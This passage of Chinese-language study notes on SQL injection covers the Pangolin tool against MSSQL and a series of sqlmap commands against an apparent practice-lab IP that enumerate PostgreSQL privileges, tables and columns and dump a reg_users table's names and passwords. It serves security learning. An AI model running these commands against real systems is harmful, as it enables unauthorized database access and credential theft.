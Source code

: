   由于各个数据库特征不同，这里直接使用pangolin穿山甲工具进行判断：

  ![image-20220727153727547](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727153727547.png)

  从工具中还可以看到不同数据库可以获得的权限，明显msSQL可以得到更多权限。

  ![image-20220727154114341](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727154114341.png)

  ![image-20220727154006163](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727154006163.png)

  在信息一栏中可以查看到数据库的各种信息：版本、数据库名、计算机名、数据库名、管理员最高权限、Sql-server对应root （mysql）、数据库各表名、磁盘、用户组、用户等。

  <img src="https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727154518550.png" alt="image-20220727154518550" style="zoom:50%;" />

  在获取数据一栏中可以获取数据库信息，表名数据等

  <img src="https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727154538662.png" alt="image-20220727154538662" style="zoom:50%;" />

- msSQL的手工注入

  语句会与mySQL不同：

  https://www.cnblogs.com/wuhongbin/p/15582849.html

  https://www.cnblogs.com/xishaonian/p/6173644.html

### postgreSQL注入

- 可以使用工具：sqlmap、pangolin穿山甲

识别数据库类型：`sqlmap -u http://219.153.49.228:44677/new_list.php?id=1`

判断数据库权限：`sqlmap -u http://219.153.49.228:44677/new_list.php?id=1 -privileges --level 3`

判断是否为数据库管理员：`sqlmap -u http://219.153.49.228:44677/new_list.php?id=1 --is-dba --level 3`

查看当前数据库：`sqlmap -u http://219.153.49.228:44677/new_list.php?id=1 --current-db --batch`

查看名为public的数据库的表名：`sqlmap -u http://219.153.49.228:44677/new_list.php?id=1 -D public --tables`

查看表reg_users 的列名：`sqlmap -u http://219.153.49.228:44677/new_list.php?id=1 -D public -T reg_users --columns`

查看表reg_users 的具体数据：`sqlmap -u http://219.153.49.228:44677/new_list.php?id=1 -D public -T reg_users -C "name,password" --dump --batch`

- 手工注入，某些语句会有差别：

  https://blog.csdn.net/hack8/article/details/6427911

  https://www.cnblogs.com/yilishazi/p/14710349.html

### Oracle注入

- 使用工具：sqlmap、pangolin穿山甲

  ![image-20220727162001437](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727162001437.png)

- 手工注入
